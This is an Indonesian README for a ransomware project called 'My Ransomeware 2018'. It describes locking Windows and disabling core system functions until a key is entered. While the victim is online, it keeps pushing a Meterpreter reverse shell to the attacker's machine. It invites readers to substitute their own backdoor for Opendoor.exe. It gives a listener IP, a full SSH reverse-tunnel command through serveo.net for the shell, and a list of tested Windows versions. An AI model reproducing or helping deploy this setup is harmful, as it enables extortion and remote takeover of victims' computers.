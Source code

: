 # My Ransomeware 2018

[Catatan]

-jalankan software pada virtual operating system yang berjalan pada VMWare atau virtualBox

-jangan merubah nama folder (VirusUI), mengedit nama file pada folder tersebut jika anda menjalankan pada BypassWinSetup.exe


[Cara Kerja Software]

-Windows akan terkunci dan anda tidak bisa melakukan apa2 karna system inti di nonaktifkan cara satu2nya anda harus unlock dengan memasukan encrypt key ke dalam software untuk kambali ke seperti semula

-Selama komputer victim terhubung ke internet, maka komputer victim akan terus tersuntikan meterpreter dengan komputer penyerang secara realtime


[Opendoor.exe]

jika anda sudah memiliki pengetahuan tentang pembuatan file backdoor, anda bisa merubah reverse untuk meterpreter dengan menimpah file Opendoor.exe dengan backdoor buatan anda.


[SSH]

Backdoor mendengarkan port 9998 dengan IP 159.89.214.31 dari seveo.net

[cmd] -> ssh -R 9998:127.0.0.1:4444 darksite@serveo.net


[Tested Works]

Windows 10 versi up

windows 8

windows 7

